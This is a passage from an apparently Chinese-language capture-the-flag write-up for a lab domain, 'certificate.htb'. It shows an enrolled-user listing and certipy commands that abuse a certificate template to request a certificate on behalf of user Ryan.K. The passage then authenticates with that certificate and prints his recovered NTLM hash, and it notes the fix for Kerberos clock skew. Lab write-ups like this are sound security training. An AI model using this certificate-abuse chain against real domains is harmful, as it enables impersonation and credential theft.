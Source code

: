 ```
Aya.W                 aya.w@certificate.htb           2024-11-04 10:17:43.642034  <never>             
Nya.S                 nya.s@certificate.htb           2024-11-04 10:18:53.829718  <never>             
Maya.K                maya.k@certificate.htb          2024-11-04 10:20:01.657941  <never>             
Lion.SK               lion.sk@certificate.htb         2024-11-04 10:28:02.471452  2024-11-04 16:24:08.500719 
Eva.F                 eva.f@certificate.htb           2024-11-04 10:33:36.752043  <never>             
Ryan.K                ryan.k@certificate.htb          2024-11-04 10:57:30.939423  2024-11-27 10:48:21.040389 
akeder.kh                                             2024-11-24 10:26:06.813668  2024-11-24 10:51:49.735026 
kara.m                                                2024-11-24 10:28:19.142081  <never>             
Alex.D                alex.d@certificate.htb          2024-11-24 14:47:44.514001  2024-11-24 14:48:05.703180 
karol.s                                               2024-11-24 10:42:21.125611  <never>             
saad.m                saad.m@certificate.htb          2024-11-24 10:44:23.532500  <never>             
xamppuser                                             2024-12-29 17:42:04.121622  2025-10-13 14:57:06.931198 
```

这些有邮箱的用户就是我们能够为其申请证书的用户，证书可以用于PIKNIT kerberos认证。也就是说，我们可以伪装成这些有邮箱的用户。为了确定伪装成谁，我们可以打开bloodhound看看它们都属于哪些组，有什么权限。

找到了Ryan.K属于Domain Storage  Managers组，可以管理磁盘存储

我们直接申请它的证书：

```
└─# certipy-ad req -u Lion.SK -p '!QAZ2wsx' -dc-ip 10.10.11.71 -ca 'Certificate-LTD-CA' -template 'SignedUser' -on-behalf-of 'CERTIFICATE\Ryan.k' -pfx lion.sk.pfx
```

然后使用certipy进行认证：

```
└─# certipy-ad -debug auth -pfx ryan.k.pfx -dc-ip 10.10.11.71 
Certipy v5.0.3 - by Oliver Lyak (ly4k)
...
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6
```

注意这里第一次使用会出现`KRB_AP_ERR_SKEW(Clock skew too great)`错误，这是因为机器和域控制器之间的系统时钟不同步。Kerberos 认证协议要求所有参与计算机的时间必须同步，通常**时间差不能超过5分钟**。先使用systemctl**停止`systemd-timesyncd`服务**，然后再使用`ntpdate 10.10.11.71`同步系统时钟。`sudo apt install ntpsec-ntpdate `安装ntpdate

```
└─# ntpdate 10.10.11.71                               
2025-10-15 21:16:07.451149 (+0800) +0.001513 +/- 0.138697 10.10.11.71 s1 no-leap
```
